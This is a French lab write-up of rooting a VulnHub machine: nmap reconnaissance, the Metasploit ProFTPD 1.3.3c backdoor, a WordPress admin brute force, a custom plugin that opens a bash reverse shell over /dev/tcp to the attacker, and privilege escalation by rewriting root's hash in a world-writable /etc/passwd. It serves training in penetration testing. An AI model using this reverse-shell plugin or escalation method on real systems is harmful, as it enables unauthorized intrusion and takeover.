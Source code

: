 # Rendu sur la machine VulnHUB

# Etape 1: Reconnaissance

## 1.1 Découverte de la machine

```bash
netdiscover -r 192.168.228.0/24

target -> 192.168.228.131
```

## 1.2 Scan des ports ouverts

```bash
$ nmap -sV --script=http-enum 192.168.228.131

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-15 11:48 CET
Nmap scan report for 192.168.228.131
Host is up (0.0020s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-enum:
|_  /secret/: Potentially interesting folder
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
On lance un scan nmap avec le script `http-enum` pour voir si on trouve des informations sur les services web.<br>
On retrouve donc une machine sous Ubuntu avec un serveur FTP, SSH et HTTP.

# Etape 2: Attacking

## 2.1 FTP

On retrouve un serveur FTP qui utilise ProFTPD 1.3.3c. 
En cherchant sur metasploit, on trouve un exploit pour cette version de ProFTPD.

<p align="center">
    <img src="./images/proftpd-metasploit.jpg" alt="proftpd-metasploit">
</p>

```bash
msf6 > use exploit/unix/ftp/proftpd_133c_backdoor
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > set RHOST 192.168.228.131
RHOST => 192.168.228.131
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > set payload 4
payload => cmd/unix/reverse
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > run
```

<p align="center">
    <img src="./images/FTP-PWND.jpg" alt="FTP-PWND">
</p>

On a un shell sur la machine en tant que `root`.
## 2.2 Apache

### 2.2.1 Accès à la page web

On a une page par defaut d'Apache, rien de bien interessant.

Avec l'enumeration du serveur HTTP, on trouve un dossier `/secret/` qui semble être un wordpress.

Déjà on voit que le CSS ne marche pas, grâce aux machines précédentes, on sait que c'est probablement une histoire de nom de domaine.

En regardant le code source de la page, on vois que le lien vers le CSS utilise le nom  `vtcsec` donc on ajoute `vtcsec` dans le fichier `/etc/hosts` et on rafraichit la page.

En se baladant sur le site on trouve pas grand chose de bien interessant, on va utiliser `wpscan` pour voir sur quoi on peut tomber.

<p align="center">
    <img src="./images/wpscan.jpg" alt="wpscan">
</p>

On voit des choses mais difficile de savoir ce qui est interessant...<br>
On va voir la page de connexion admin `http://vtcsec/secret/wp-login.php` et on va tenter de bruteforce les identifiants pendant qu'on cherche d'autres informations.

Grâce à metasploit, on a un script pour bruteforce les identifiants wordpress(`scanner/http/wordpress_login_enum`).<br>
J'utilise les wordlists de `unix-passwords` et `unix-users` sur une intuition que ce soit les mêmes mots de passe que pour un possible utilisateur unix.

<p align="center">
    <img src="./images/WP-Bruteforce-unix.jpg" alt="WP-Bruteforce-unix">
</p>
<p align="center">
    <img src="./images/bruteforceYES.jpg" alt="bruteforceYES">
</p>

Évidemment, c'était ``admin:admin`` ... On aurait du commencer par là...

### 2.2.2 Plugin malveillant

Maintenant qu'on a accès à l'interface d'administration, on peut faire un peu se que l'on veut sur le service web. Donc essayons d'uploader un plugin malveillant pour avoir un shell sur la machine.<br>
Après un peu de recherche il existe des exploits pour injecter des plugins dans wordpress en utilisant metasploit (`exploit/unix/webapp/wp_admin_shell_upload`).<br>
Mais j'ai vu que c'etait pas si compliqué de le faire manuellement, donc j'ai fait mon propre plugin reverse shell.

```php
<?php
/**
* Plugin Name: Reverse Shell Plugin
* Plugin URI:
* Description: Reverse Shell Plugin
* Version: 1.0
* Author: Michelle drucker
* Author URI: https://www.youtube.com/watch?v=dQw4w9WgXcQ
*/
exec('/bin/bash -c "bash -i >& /dev/tcp/192.168.228.130/4444 0>&1"');
```

Une simple ligne de commande qui va ouvrir un processus bash qui va se connecter à notre machine sur le port 4444.<br>
On compresse le fichier en `.zip` et on l'upload sur le site avec `http://vtcsec/secret/wp-admin/plugin-install.php?tab=upload`.

Apparemment c'est important de mettre les commentaires au début du fichier sinon la page ne reconnait pas le fichier comme un plugin.

Plus qu'à l'activer et à écouter sur le port 4444.

```bash
nc -lvnp 4444
```
<p align="center">
    <img src="./images/revshell-connected.jpg" alt="revshell-connected">
</p>

Et voilà, on a un reverse shell sur la machine. (dit comme ça, ça parraissait rapide mais je suis resté bloqué un moment sur le plugin qui ne voulait pas s'activer...il fallait juste rafraichir la page...)

### 2.2.3 Escalade de privilèges

On est connecté en tant que `www-data`, c'est super mais c'est pas root.<br>
il existe un script qui permet de trouver des permissions mal configurées sur la machine ([linpeas](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)).<br>
On va donc l'uploader sur la machine et l'executer (cURL n'est pas installé par contre wget oui).

<p align="center">
    <img src="./images/linpeas.jpg" alt="linpeas">
</p>

Par soucis de verbosité, on va pas afficher tout le résultat mais certains points sont interessants:
- `/etc/shadow` est accessible en lecture pour tout le monde (C'est le fichier qui contient les mots de passe hashés)
- `/etc/passwd` est accessible en lecture/écriture pour tout le monde (On peut donc ajouter un utilisateur et/ou modifier les mots de passe)

<p align="center">
    <img src="./images/shadow.jpg" alt="shadow">
</p>

Je n'avais pas vu au début que le fichier `/etc/passwd` était en écriture pour tout le monde, donc je me suis dit qu'il fallait brute force le mot de passe de l'utilisateur `marlinspike`.<br>
J'ai donc utilisé `john` pour cracker le mot de passe avec le hash trouvé dans `/etc/shadow`.

<p align="center">
    <img src="./images/failed-user-bruteforce.jpg" alt="failed-user-bruteforce">
</p>

Malheureusement, je n'ai pas réussi à cracker le mot de passe de l'utilisateur `marlinspike`.<br>

Mais en relisant le résultat de `linpeas`, je me suis rendu compte que j'avais les droits en écriture sur `/etc/passwd`.<br>
Donc je me suis renseigné un peu sur les possibilités que j'avais avec ce fichier. Au début je voulais juste ajouter un utilisateur pour me connecter en SSH mais je me suis rendu compte que je pouvais aussi modifier le mot de passe de l'utilisateur `root`.<br>
Par default, ils sont stockés dans `/etc/shadow` et donc dans le fichier `/etc/passwd` on a juste un `x`. Mais si on remplace le `x` par le hash du mot de passe que l'on veut, on peut effectivement changer le mot de passe de l'utilisateur `root`.

<p align="center">
    <img src="./images/nouveau-hash.jpg" alt="nouveau-hash">
</p>

Vu que le shell est assez limité, je pouvait pas lancer de `nano` ou `vim` pour modifier le fichier, pour pas me prendre la tête j'ai juste copié le contenu du fichier `/etc/passwd` dans un fichier sur ma machine, j'ai modifié le hash du mot de passe de `root` puis je l'ai renvoyé sur la machine avec un serveur HTTP python.

<p align="center">
    <img src="./images/passwd-droped.jpg" alt="passwd-droped">
</p>

Maintenant que le mot de passe de `root` est changé, on peut faire un `su root` avec le mot de passe que l'on a choisi.

<p align="center">
    <img src="./images/wp-pwnd.jpg" alt="wp-pwnd">
</p>

Et voilà, on a accès à la machine en tant que `root`.

# Tentative ratée

J'ai aussi essayé de bruteforce le mot de passe de l'utilisateur `marlinspike` avec `hydra` pour me connecter en SSH mais c'était un échec.

<p align="center">
    <img src="./images/failed-ssh-bruteforce.jpg" alt="failed-ssh-bruteforce">
</p>
